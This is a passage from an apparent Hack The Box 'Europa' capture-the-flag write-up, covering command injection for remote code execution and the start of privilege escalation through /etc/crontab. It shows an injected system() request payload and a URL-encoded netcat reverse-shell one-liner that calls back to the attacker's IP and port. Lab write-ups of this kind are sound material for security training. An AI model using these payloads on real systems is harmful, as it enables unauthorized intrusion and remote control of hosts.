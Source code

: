 Feel free to edit out all the giberrish and change the request data to `pattern=%2Fv3ded%2Fe&ipaddress=system("ls -la /")&text=v3ded` so that we can achieve RCE.
  
<img src="/img/blog/htb-europa/htb-europa-10.png">

Now it's just the matter changing the system() command parameters and getting a [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). You can approach it in many ways, here is my solution - `system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+yourIP+PORT+>/tmp/f")`!  We use netcat for a reverse shell connection, however because *-e* option is  unavailable, we are forced to use a workaround. Check the reverse shell link above for more information.

> Note: The previous reverse shell is an URL encoded version of the original one, found on pentestmonkey!

<img src="/img/blog/htb-europa/htb-europa-11.png">

Baaam!

***

# Privilege escalation

Following my usual information gathering steps I find a running vulnerable cronjob!

```console
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
```